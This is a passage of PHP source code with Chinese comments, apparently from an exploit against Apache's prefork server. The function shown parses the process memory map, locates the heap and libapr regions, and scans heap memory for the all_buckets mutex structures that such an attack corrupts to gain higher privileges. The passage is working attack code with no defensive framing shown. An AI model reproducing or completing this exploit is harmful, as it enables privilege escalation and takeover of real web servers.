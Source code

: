         return 0;
    }

    //获取all_buckets的地址
    function locate_all_buckets_addr()
    {
        $heap_region = get_mem_region("heap");//在我的环境中，all_bucket位于第一个heap中
        $libapr_region = get_mem_region("libapr-");
        if(!count($heap_region) || !count($libapr_region))
            return 0;
        $heap_start_addr = $heap_region[0][0];
        $heap_end_addr = $heap_region[0][1];

        echo "heap start addr:0x".dechex($heap_start_addr)."\n";
        echo "heap end addr:0x".dechex($heap_end_addr)."\n";

        $libapr_text_start_addr = 0;
        $libapr_data_start_addr = 0;
        $libapr_text_end_addr = 0;
        $libapr_data_end_addr = 0;
        for($i = 0;$i<count($libapr_region);$i++){
            if($libapr_region[$i][2] === "r-xp"){//代码段
                $libapr_text_start_addr = $libapr_region[$i][0];
                $libapr_text_end_addr = $libapr_region[$i][1];
                continue;
            }

            if($libapr_region[$i][2] === "r--p"){//const data
                $libapr_data_start_addr = $libapr_region[$i][0];
                $libapr_data_end_addr = $libapr_region[$i][1];
                continue;
            }
        }

        echo "libapr text start addr:0x".dechex($libapr_text_start_addr)."\n";
        echo "libapr text end addr:0x".dechex($libapr_text_end_addr)."\n";

        echo "libapr data start addr:0x".dechex($libapr_data_start_addr)."\n";
        echo "libapr data end addr:0x".dechex($libapr_data_end_addr)."\n";

        $result = array();
        $result_index = 0;
        for($i = 0;$i<$heap_end_addr - $heap_start_addr;$i+=8){//遍历heap
            $mutex_addr = read_mem_qword($heap_start_addr + $i);//prefork_child_bucket中的mutex
            if( $heap_start_addr <$mutex_addr && $mutex_addr<$heap_end_addr ){

                $meth_addr = read_mem_qword($mutex_addr + 8);//apr_proc_mutex_t中的meth

                if( $libapr_data_start_addr < $meth_addr && $meth_addr < $libapr_data_end_addr){

                    $function_point = read_mem_qword($meth_addr+8);
                    if($libapr_text_start_addr < $function_point && $function_point < $libapr_text_end_addr){
                        $result[$result_index++] = $heap_start_addr + $i - 8 -8;
                    }
                }
            }
        }
